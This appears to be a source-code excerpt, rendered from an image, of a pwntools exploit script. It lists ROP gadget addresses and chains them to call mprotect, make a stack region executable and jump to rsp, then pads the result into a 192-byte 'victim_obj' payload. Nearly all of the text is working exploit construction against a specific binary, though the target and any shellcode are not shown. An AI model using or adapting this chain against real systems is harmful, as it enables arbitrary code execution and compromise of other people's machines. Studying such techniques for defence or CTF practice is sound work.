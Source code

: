 ```
0x0000000001356e88 : mov rax, rdx ; pop rbp ; ret
0x0000000000550a38 : mov rax, rdx ; ret

0x000000000076e03e : pop rcx ; ret
0x0000000002c2c9b0 : and rax, rcx ; ret

0x000000000053d5a5 : pop rdi ; ret
0x0000000000687c69 : pop rsi ; ret
0x0000000001f407f4 : mov rdx, rax ; sub rdx, rdi ; sub qword ptr [rsi], rdx ; ret

0x0000000000687c69 : pop rsi ; ret
0x000000000045da22 : mov rdi, rdx ; test esi, esi ; jne 0x45da30 ; ret

0x0000000000687c69 : pop rsi ; ret

0x000000000043f942 : pop rdx ; ret

0x00000000005ecfe6 : jmp rsp

"""

mov_rax_rdx_ret = 0x0000000000550a38
pop_rcx_ret = 0x000000000076e03e
and_rax_rcx_ret = 0x0000000002c2c9b0
pop_rdi_ret = 0x000000000053d5a5
pop_rsi_ret = 0x0000000000687c69
mov_rdx_rax_ret = 0x0000000001f407f4
mov_rdi_rdx_ret = 0x000000000045da22
pop_rdx_ret = 0x000000000043f942
mprotect_plt = 0x0043F460
jmp_rsp = 0x00000000005ecfe6

gadget = b""
gadget += pwn.p64(mov_rax_rdx_ret)

# for dirty write, 进程会修改该处栈数据
gadget += pwn.p64(pop_rcx_ret)
gadget += pwn.p64(0x0000000001356e88)

gadget += pwn.p64(pop_rcx_ret)
gadget += pwn.p64(0xfffffffffffff000)
gadget += pwn.p64(and_rax_rcx_ret)
gadget += pwn.p64(pop_rdi_ret)
gadget += pwn.p64(0)
gadget += pwn.p64(pop_rsi_ret)
gadget += pwn.p64(writeable_address)
gadget += pwn.p64(mov_rdx_rax_ret)
gadget += pwn.p64(pop_rsi_ret)
gadget += pwn.p64(0)
gadget += pwn.p64(mov_rdi_rdx_ret)
gadget += pwn.p64(pop_rsi_ret)
gadget += pwn.p64(0x4000)
gadget += pwn.p64(pop_rdx_ret)
gadget += pwn.p64(7)
gadget += pwn.p64(mprotect_plt)
gadget += pwn.p64(jmp_rsp)

gadget += b"\xf8" * 12

assert(len(gadget) &lt;= 192)

victim_obj = gadget
victim_obj += b"\xf2" * (192 - len(victim_obj))
```